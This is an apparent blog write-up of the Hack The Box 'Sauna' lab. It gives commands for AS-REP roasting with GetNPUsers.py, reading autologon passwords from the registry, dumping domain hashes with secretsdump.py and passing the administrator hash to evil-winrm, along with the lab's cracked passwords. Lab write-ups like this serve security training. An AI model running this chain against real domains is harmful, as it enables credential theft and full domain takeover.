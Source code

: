 ```yaml
---
layout: post
title: Sauna Machine Walkthrough
description: >
    Sauna Hackthebox Machine Detailed Walkthrough
sitemap: false
categories: [Hackthebox]
permalink: /:categories/book.html
---
```


***"Technology is just a tool. In terms of getting the kids working together and motivating them, the teacher is the most important."***   - Bill Gates
{:.lead}
![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/poster.jpeg)

* toc
{:toc .large-only}

## Machine Matrix
![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/machinematrix.png)

## Machine Summary
Box has an webapplication running, from which we enumerated the usernames. We made certain modifications on the usernames and ran GetNPUsers.py from impacket library inorder to check whether any user has kerberos pre-authentication disabled. As expected one (fsmith) user as kerberos pre-authentication disabled and using winrm we get the user shell. Now for privilege escalation, we find that there is a default crendentials stored for a user (svs_loanmgr) but that that is not the administrator. We use secretsdump.py again from impacket library to dump the crendentials of all the user including the administrator.

## Nmap Scan
I started the enumeration with nmap scan
```bash
nmap -sC -sV 10.10.10.10.175
```
![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/1.png)

The Box had 12 ports open

| Port         | Service           |
|:-------------|:------------------|
| 53           | domain            |
| 80           | http IIS Server   |
| 88           | kerberos-sec      |
| 135          | msrpc             |
| 139          | netbios-ssn       |
| 389          | ldap              |
| 445          | microsoft-ds      |
| 464          | kpasswd5          |
| 593          | ncacan_http       |
| 636          | tcpwrapped        |
| 3268         | ldap              |
| 3269         | tcpwrapped        |

## Enumeration on port 80
I enumerated on the webapplication to check if there is any misconfigurations that could lead us to initial foothold but that didnt end well. We have potential names of the employees and check with any of the user have kerberos pre-authentication disabled.
```
fergus smith
shaun coins
sophie driver
bowie taylor
hugo bear
steven kerb
```

![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/2.png)

## Enumerating with usernames

I formed a list of usernames of the  Active Directory, i formed the list using certain naming conventions such as username for John Melon can be 
```
j.melon 
jmelon
johnm
john.melon
john.m
```
![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/3.png)

## Kerberos Pre-Authentication
The Key Distribution Center (KDC) is available as part of the domain controller and performs two key functions which are: Authentication Service (AS) and Ticket-Granting Service (TGS)

By default the KDC requires all accounts to use pre-authentication. This is a security feature which offers protection against password-guessing attacks. The AS request identifies the client to the KDC in plain text. If pre-authentication is enabled, a time stamp will be encrypted using the user's password hash as an encryption key. If the KDC reads a valid time when using the user's password hash, which is available in the Active Directory, to decrypt the time stamp, the KDC knows that request isn't a replay of a previous request.

When you do not enforce pre-authentication, a malicious attacker can directly send a dummy request for authentication. The KDC will return an encrypted TGT and the attacker can brute force it offline.

![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/kerberos_preauthentication.png)

## Acquring User Shell
Some time kerberos pre-authentication is disabled for the domain users. As mentioned earlier we can get the encrypted TGT with a dumy query using GetNPUsers.py from impacket library with the username list that i have formed.
```bash
GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile usernames.txt -no-pass -format john -outputfile hash.txt
```
![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/4.png)

I was able to retrive the kerberos hash for the username fsmith

![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/5.png)

I cracked the obtained hash of fsmith using john, the password for fsmith was ***Thestrokes23***

![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/6.png)

Now i used evil-winrm tool with the username as *fsmith* and password as *Thestrokes23* to get the shell.

## Privilege Escalation 
As usual i ran winpeas for enumerating on the privilege escalation, found there was an autologon credentials for the user svc_loanmanager

![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/7.png)

we can also manually verify it using the command:
```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword
```
or 
```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword /reg:64
```
```
Auto Logon Credentials
username: svc_loanmanager
password: Moneymakestheworldgoround!
```
Getting the administrator access won't be this simple, i was not able to get the shell for  the user svc_loanmanager. The user's folder had only fmsith, svc_loanmgr, administrator (enumerated using the fsmith access).
Now i tried with the username svc_loanmgr, got the shell
I manually enumerated it and found that it is a part of domain controlle

So i ran secretsdump.py to dump the credentials of all the users.
```bash
secretsdump.py EGOTISTICAL-BANK.local/svc_loanmgr@EGOTISTICAL-BANK.local
```
![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/8.png)

Now i used the NTLM hash of the administrator directly in evil-winrm to get the shell
```bash
evil-winrm -i 10.10.10.175 -u administrator -H {HASH}
```
![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/9.png)

![](https://r3dw0lfsec.github.io/assets/img/blog/HTB/sauna/sauna.png)

Happy Hacking!